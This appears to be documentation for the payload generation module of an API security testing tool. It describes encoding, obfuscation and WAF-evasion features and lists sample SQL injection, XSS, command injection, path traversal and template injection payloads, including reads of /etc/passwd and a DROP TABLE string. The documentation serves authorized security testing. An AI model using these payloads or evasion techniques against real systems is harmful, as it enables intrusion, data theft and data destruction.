

# Payload Generator

The **Payload Generator** is an advanced APILeak component that provides sophisticated payload generation, encoding, and obfuscation capabilities for API security testing. This module implements advanced WAF evasion techniques and vulnerability-specific payload generation.

## 📋 Table of Contents

- [Key Features](#key-features)
- [Architecture](#architecture)
- [Encoding Types](#encoding-types)
- [Obfuscation Techniques](#obfuscation-techniques)
- [Vulnerability-Specific Payload Generation](#vulnerability-specific-payload-generation)
- [Template System](#template-system)
- [Wordlist Expansion](#wordlist-expansion)
- [Configuration](#configuration)
- [Usage Examples](#usage-examples)
- [Integration with Other Modules](#integration-with-other-modules)
- [Performance and Optimization](#performance-and-optimization)

## 🚀 Key Features

### ✅ Multiple Encoding
- **URL Encoding**: Standard URL encoding (`%20`, `%27`, etc.)
- **Base64 Encoding**: Base64 encoding for filter evasion
- **HTML Encoding**: HTML entities (`&lt;`, `&gt;`, etc.)
- **Unicode Encoding**: Unicode encoding (`\u0027`, etc.)
- **Double URL Encoding**: Double URL encoding for advanced bypass
- **Hexadecimal Encoding**: Hexadecimal encoding

### ✅ Obfuscation Techniques
- **Case Variations**: Uppercase, lowercase, mixed, alternating
- **Character Mutations**: Substitutions and transformations
- **Whitespace Insertion**: Different types of space characters
- **Comment Insertion**: SQL/code comments for bypass
- **String Concatenation**: Concatenation techniques

### ✅ Vulnerability-Specific Payloads
- **SQL Injection**: Time-based, error-based, union-based, boolean-based
- **XSS**: Reflected, stored, DOM-based, filter evasion
- **Command Injection**: Linux/Windows, time-based detection
- **Path Traversal**: Multiple OS, encoded variants
- **SSTI**: Server-Side Template Injection
- **NoSQL Injection**: MongoDB, JavaScript injection

### ✅ Framework Adaptation
- **FastAPI**: FastAPI-specific payloads
- **Django**: Django templates, specific configurations
- **Express**: Node.js/Express payloads
- **Flask**: Flask templates, specific SSTI

## 🏗️ Architecture



## 🔐 Encoding Types

### URL Encoding
Encodes special characters for URL usage:

```python
from utils.payload_generator import PayloadGenerator, EncodingType

generator = PayloadGenerator()
payload = "' OR '1'='1' --"

# Generate URL encoded version
encoded = generator.generate_encoded_payloads(payload, [EncodingType.URL])
# Result: %27%20OR%20%271%27%3D%271%27%20--
```

### Base64 Encoding
Encodes payloads in Base64 for evasion:

```python
# Generate Base64 version
encoded = generator.generate_encoded_payloads(payload, [EncodingType.BASE64])
# Result: JyBPUiAnMSc9JzEnIC0t
```

### Unicode Encoding
Converts characters to Unicode representation:

```python
# Generate Unicode version
encoded = generator.generate_encoded_payloads(payload, [EncodingType.UNICODE])
# Result: \u0027\u0020\u004f\u0052\u0020\u0027\u0031\u0027\u003d\u0027\u0031\u0027\u0020\u002d\u002d
```

### Combined Encoding
Applies multiple encodings in sequence:

```python
# Multiple encodings
encodings = [EncodingType.URL, EncodingType.BASE64, EncodingType.UNICODE]
encoded = generator.generate_encoded_payloads(payload, encodings)
# Generates all possible combinations
```

## 🎭 Obfuscation Techniques

### Case Variations
Generates different uppercase and lowercase variations:

```python
from utils.payload_generator import ObfuscationType

payload = "SELECT * FROM users"
obfuscated = generator.apply_obfuscation(payload, [ObfuscationType.CASE_VARIATION])

# Results:
# - SELECT * FROM USERS
# - select * from users  
# - SeLeCt * FrOm UsErS
# - sElecT * froM uSErs
```

### Character Mutations
Applies character substitutions for evasion:

```python
payload = "' OR '1'='1' --"
obfuscated = generator.apply_obfuscation(payload, [ObfuscationType.MUTATION])

# Results:
# - %27 OR %271%27=%271%27 --
# - ' || '1'='1' --
# - ' OR '1' LIKE '1' --
```

### Whitespace Insertion
Inserts different types of space characters:

```python
payload = "UNION SELECT"
obfuscated = generator.apply_obfuscation(payload, [ObfuscationType.WHITESPACE_INSERTION])

# Results:
# - UNION\tSELECT
# - UNION\nSELECT
# - UNION\rSELECT
```

### Comment Insertion
Inserts SQL/code comments for bypass:

```python
payload = "SELECT password FROM users"
obfuscated = generator.apply_obfuscation(payload, [ObfuscationType.COMMENT_INSERTION])

# Results:
# - SELECT/**/password/**/FROM/**/users
# - SELECT -- comment\npassword FROM users
# - SELECT # comment\npassword FROM users
```

## 🎯 Vulnerability-Specific Payload Generation

### SQL Injection
Generates SQL injection specific payloads:

```python
from utils.payload_generator import VulnerabilityType

sql_payloads = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)

# Example generated payloads:
# - ' OR '1'='1' --
# - '; DROP TABLE users; --
# - ' UNION SELECT 1,2,3 --
# - '; WAITFOR DELAY '00:00:05' --
# - ' AND (SELECT COUNT(*) FROM information_schema.tables) > 0 --
```

### XSS (Cross-Site Scripting)
Generates XSS attack payloads:

```python
xss_payloads = generator.generate_injection_payloads(VulnerabilityType.XSS)

# Example generated payloads:
# - <script>alert('XSS')</script>
# - 
# - <svg onload=alert('XSS')>
# - javascript:alert('XSS')
# - <iframe src=javascript:alert('XSS')></iframe>
```

### Command Injection
Generates command injection payloads:

```python
cmd_payloads = generator.generate_injection_payloads(VulnerabilityType.COMMAND_INJECTION)

# Example generated payloads:
# - ; cat /etc/passwd
# - | whoami
# - && id
# - `uname -a`
# - $(whoami)
# - ; ping -c 4 127.0.0.1
```

### Path Traversal
Generates path traversal payloads:

```python
path_payloads = generator.generate_injection_payloads(VulnerabilityType.PATH_TRAVERSAL)

# Example generated payloads:
# - ../../../etc/passwd
# - ..\\..\\..\\windows\\system32\\drivers\\etc\\hosts
# - %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
# - ....//....//....//etc/passwd
```

### Server-Side Template Injection (SSTI)
Generates SSTI payloads:

```python
ssti_payloads = generator.generate_injection_payloads(VulnerabilityType.SSTI)

# Example generated payloads:
# - {{7*7}}
# - ${7*7}
# - {{config.items()}}
# - {{request.environ}}
# - {{''.__class__.__mro__[2].__subclasses__()}}
```

## 📋 Template System

### Default Templates
The system includes predefined templates for each vulnerability type:

```yaml
# templates/payloads/advanced_sql_injection.yaml
name: "Advanced SQL Injection"
vulnerability_type: "sql_injection"
description: "Advanced SQL injection payloads with time-based and error-based techniques"
base_payloads:
  - "' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) --"
  - "'; WAITFOR DELAY '00:00:05' --"
  - "' AND (SELECT SUBSTRING(@@version,1,1))='5' --"
variations:
  - "admin"
  - "root"
  - "test"
encodings:
  - "url"
  - "unicode"
  - "hex"
obfuscations:
  - "case_variation"
  - "mutation"
  - "comment_insertion"
```

### Custom Templates
You can create custom templates:

```python
from utils.payload_generator import PayloadGenerationConfig

config = PayloadGenerationConfig(
    custom_templates_dir="my_directory/templates"
)
generator = PayloadGenerator(config)
```

### Template Information
Get information about available templates:

```python
# List available vulnerability types
vuln_types = generator.get_available_vulnerability_types()

# Get detailed template information
sql_templates = generator.get_template_info(VulnerabilityType.SQL_INJECTION)
for template in sql_templates:
    print(f"Template: {template['name']}")
    print(f"Payloads: {template['payload_count']}")
    print(f"Encodings: {template['encodings']}")
```

## 📚 Wordlist Expansion

### Prefix Expansion
Expands wordlists by adding common prefixes:

```python
wordlist = ["users", "admin", "api"]
prefixes = ["v1/", "v2/", "api/"]

expanded = generator.expand_wordlist(wordlist, prefixes=prefixes)

# Result:
# - users, admin, api (originals)
# - v1/users, v1/admin, v1/api
# - v2/users, v2/admin, v2/api  
# - api/users, api/admin, api/api
```

### Suffix Expansion
Expands wordlists by adding common suffixes:

```python
wordlist = ["users", "admin", "api"]
suffixes = ["/list", "/create", "/delete"]

expanded = generator.expand_wordlist(wordlist, suffixes=suffixes)

# Result:
# - users, admin, api (originals)
# - users/list, users/create, users/delete
# - admin/list, admin/create, admin/delete
# - api/list, api/create, api/delete
```

### Combined Expansion
Combines prefixes and suffixes:

```python
wordlist = ["users", "admin"]
prefixes = ["v1/", "api/"]
suffixes = ["/list", "/create"]

expanded = generator.expand_wordlist(wordlist, prefixes, suffixes)

# Result includes all combinations:
# - v1/users/list, v1/users/create
# - v1/admin/list, v1/admin/create
# - api/users/list, api/users/create
# - api/admin/list, api/admin/create
```

## ⚙️ Configuration

### Basic Configuration
```python
from utils.payload_generator import PayloadGenerationConfig, EncodingType, ObfuscationType

config = PayloadGenerationConfig(
    enabled_encodings=[EncodingType.URL, EncodingType.BASE64, EncodingType.UNICODE],
    enabled_obfuscations=[ObfuscationType.CASE_VARIATION, ObfuscationType.MUTATION],
    max_variations_per_payload=10,
    include_original=True,
    custom_templates_dir="templates/payloads"
)

generator = PayloadGenerator(config)
```

### Advanced Configuration via YAML
```yaml
# config/payload_generator_config.yaml
payload_generation:
  enabled: true
  
  encodings:
    enabled: true
    types: ["url", "base64", "html", "unicode", "double_url", "hex"]
    include_original: true
    max_variations: 10

  obfuscation:
    enabled: true
    techniques: ["case_variation", "mutation", "whitespace_insertion", "comment_insertion"]
    max_variations: 8

  vulnerability_payloads:
    enabled: true
    sql_injection:
      enabled: true
      include_time_based: true
      include_error_based: true
    xss:
      enabled: true
      include_filter_evasion: true

  framework_adaptation:
    enabled: true
    auto_adapt: true
    frameworks:
      fastapi:
        enabled: true
        focus_vulnerabilities: ["sql_injection", "xss"]
      django:
        enabled: true
        focus_vulnerabilities: ["sql_injection", "ssti"]

  performance:
    max_payloads_per_type: 100
    enable_caching: true
    parallel_generation: true
    worker_threads: 4
```

## 💡 Usage Examples

### Example 1: Basic Payload Generation
```python
from utils.payload_generator import PayloadGenerator, VulnerabilityType

# Create generator
generator = PayloadGenerator()

# Generate SQL injection payloads
sql_payloads = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)

# Use in fuzzing
for payload in sql_payloads[:10]:  # First 10 payloads
    test_url = f"https://api.example.com/users?id={payload}"
    # Perform test request
```

### Example 2: Encoding for WAF Evasion
```python
# Payload that might be blocked by WAF
dangerous_payload = "<script>alert('XSS')</script>"

# Generate encoded versions
encoded_payloads = generator.generate_encoded_payloads(dangerous_payload)

# Test each encoded version
for encoded in encoded_payloads:
    test_data = {"comment": encoded}
    # Send request with encoded payload
```

### Example 3: Framework Adaptation
```python
# Detect framework (example: FastAPI detected)
detected_framework = "fastapi"

# Generate FastAPI-specific payloads
fastapi_payloads = generator.generate_framework_specific_payloads(
    detected_framework, 
    VulnerabilityType.SQL_INJECTION
)

# Use optimized payloads for FastAPI
for payload in fastapi_payloads:
    # Test against FastAPI
    pass
```

### Example 4: Wordlist Expansion for Discovery
```python
# Discovered base endpoints
base_endpoints = ["users", "admin", "config"]

# Expand with common API patterns
expanded_endpoints = generator.expand_wordlist(
    base_endpoints,
    prefixes=["v1/", "v2/", "api/", "internal/"],
    suffixes=["/list", "/create", "/update", "/delete", "/search"]
)

# Use expanded endpoints for discovery
for endpoint in expanded_endpoints:
    test_url = f"https://api.example.com/{endpoint}"
    # Test endpoint
```

### Example 5: Custom Configuration
```python
from utils.payload_generator import PayloadGenerationConfig, EncodingType

# Configuration for aggressive WAF evasion
aggressive_config = PayloadGenerationConfig(
    enabled_encodings=[
        EncodingType.URL, 
        EncodingType.DOUBLE_URL, 
        EncodingType.UNICODE, 
        EncodingType.HEX
    ],
    enabled_obfuscations=[
        ObfuscationType.CASE_VARIATION,
        ObfuscationType.MUTATION,
        ObfuscationType.WHITESPACE_INSERTION,
        ObfuscationType.COMMENT_INSERTION
    ],
    max_variations_per_payload=20,
    include_original=False  # Only obfuscated versions
)

aggressive_generator = PayloadGenerator(aggressive_config)

# Generate highly obfuscated payloads
obfuscated_payloads = aggressive_generator.generate_injection_payloads(
    VulnerabilityType.XSS
)
```

## 🔗 Integration with Other Modules

### Integration with Fuzzing Engine
```python
# In the fuzzing module
from utils.payload_generator import PayloadGenerator, VulnerabilityType

class ParameterFuzzer:
    def __init__(self):
        self.payload_generator = PayloadGenerator()
    
    def fuzz_parameter(self, endpoint, parameter):
        # Generate payloads for different vulnerabilities
        sql_payloads = self.payload_generator.generate_injection_payloads(
            VulnerabilityType.SQL_INJECTION
        )
        xss_payloads = self.payload_generator.generate_injection_payloads(
            VulnerabilityType.XSS
        )
        
        all_payloads = sql_payloads + xss_payloads
        
        for payload in all_payloads:
            # Test payload on parameter
            self.test_payload(endpoint, parameter, payload)
```

### Integration with OWASP Modules
```python
# In OWASP modules
class BOLATestingModule:
    def __init__(self):
        self.payload_generator = PayloadGenerator()
    
    def test_object_enumeration(self, endpoint):
        # Expand IDs with common patterns
        base_ids = ["1", "2", "admin", "test"]
        expanded_ids = self.payload_generator.expand_wordlist(
            base_ids,
            prefixes=["user_", "id_", "obj_"],
            suffixes=["_admin", "_test", "_backup"]
        )
        
        for object_id in expanded_ids:
            # Test object access
            self.test_object_access(endpoint, object_id)
```

### Integration with WAF Detection
```python
# When WAF is detected
class WAFEvasionModule:
    def __init__(self):
        self.payload_generator = PayloadGenerator()
    
    def evade_waf(self, detected_waf, base_payload):
        if detected_waf == "cloudflare":
            # Use Cloudflare-specific techniques
            encoded = self.payload_generator.generate_encoded_payloads(
                base_payload, 
                [EncodingType.UNICODE, EncodingType.DOUBLE_URL]
            )
        elif detected_waf == "aws_waf":
            # Use AWS WAF-specific techniques
            obfuscated = self.payload_generator.apply_obfuscation(
                base_payload,
                [ObfuscationType.CASE_VARIATION, ObfuscationType.COMMENT_INSERTION]
            )
        
        return encoded or obfuscated
```

## ⚡ Performance and Optimization

### Performance Configuration
```python
# Performance-optimized configuration
performance_config = PayloadGenerationConfig(
    max_variations_per_payload=5,  # Limit variations
    enable_caching=True,           # Enable caching
    parallel_generation=True,      # Parallel generation
    worker_threads=4               # Worker threads
)
```

### Payload Caching
The system includes automatic caching to improve performance:

```python
# Payloads are automatically cached
generator = PayloadGenerator()

# First call: generates and caches
payloads1 = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)

# Second call: uses cache (faster)
payloads2 = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)
```

### Parallel Generation
For large wordlists, generation is automatically parallelized:

```python
# Large wordlist is processed in parallel
large_wordlist = [f"endpoint_{i}" for i in range(1000)]
expanded = generator.expand_wordlist(
    large_wordlist,
    prefixes=["v1/", "v2/", "api/"],
    suffixes=["/list", "/create", "/delete"]
)
# Automatic processing in multiple threads
```

### Performance Metrics
```python
import time

start_time = time.time()

# Generate payloads
payloads = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)

end_time = time.time()
print(f"Generated {len(payloads)} payloads in {end_time - start_time:.2f} seconds")
```

## 🛡️ Security Considerations

### Responsible Use
- **Only in authorized environments**: Use only on owned systems or with explicit authorization
- **Respect rate limits**: Do not overload target systems
- **Test documentation**: Maintain records of all tests performed

### Payload Limitations
```python
# Configure limits to avoid accidental DoS
safe_config = PayloadGenerationConfig(
    max_variations_per_payload=10,  # Limit variations
    max_payloads_per_type=50       # Limit total payloads
)
```

### Input Validation
```python
# The system automatically validates inputs
try:
    payloads = generator.generate_encoded_payloads(user_input)
except ValueError as e:
    print(f"Invalid input: {e}")
```

## 🔧 Troubleshooting

### Common Issues

#### Error: "No templates found"
```python
# Verify templates directory
config = PayloadGenerationConfig(
    custom_templates_dir="templates/payloads"  # Verify path
)

# Verify .yaml files exist in directory
import os
template_files = os.listdir("templates/payloads")
print(f"Templates found: {template_files}")
```

#### Slow Performance
```python
# Optimize configuration
fast_config = PayloadGenerationConfig(
    max_variations_per_payload=5,    # Reduce variations
    enable_caching=True,             # Enable caching
    parallel_generation=True         # Use parallelization
)
```

#### Insufficient Memory
```python
# Process in smaller batches
def generate_in_batches(generator, vuln_type, batch_size=100):
    all_payloads = generator.generate_injection_payloads(vuln_type)
    
    for i in range(0, len(all_payloads), batch_size):
        batch = all_payloads[i:i + batch_size]
        yield batch

# Use batch generator
for batch in generate_in_batches(generator, VulnerabilityType.SQL_INJECTION):
    # Process batch
    process_payload_batch(batch)
```

## 📊 Metrics and Statistics

### Generation Statistics
```python
# Get statistics of generated payloads
stats = {
    'sql_injection': len(generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)),
    'xss': len(generator.generate_injection_payloads(VulnerabilityType.XSS)),
    'command_injection': len(generator.generate_injection_payloads(VulnerabilityType.COMMAND_INJECTION)),
    'path_traversal': len(generator.generate_injection_payloads(VulnerabilityType.PATH_TRAVERSAL))
}

print("Payloads generated by type:")
for vuln_type, count in stats.items():
    print(f"  {vuln_type}: {count} payloads")
```

### Coverage Analysis
```python
# Analyze template coverage
vuln_types = generator.get_available_vulnerability_types()
coverage = {}

for vuln_type in vuln_types:
    templates = generator.get_template_info(vuln_type)
    total_payloads = sum(t['payload_count'] for t in templates)
    coverage[vuln_type.value] = {
        'templates': len(templates),
        'total_payloads': total_payloads
    }

print("Template coverage:")
for vuln_type, info in coverage.items():
    print(f"  {vuln_type}: {info['templates']} templates, {info['total_payloads']} base payloads")
```

---

## 📚 References

- **[Advanced Configuration](configuration.md)** - Detailed system configuration
- **[WAF Evasion Guide](waf-evasion.md)** - WAF evasion techniques
- **[Testing Guide](testing.md)** - Testing strategies
- **[API Reference](api-reference.md)** - Complete API reference

## 🤝 Contributions

To contribute to the Payload Generator:

1. Create new templates in `templates/payloads/`
2. Add new encoding techniques
3. Implement new obfuscation techniques
4. Improve documentation

See [Contributing Guide](../CONTRIBUTING.md) for more details.

---

**The Payload Generator is ready for advanced security testing!** 🚀🛡️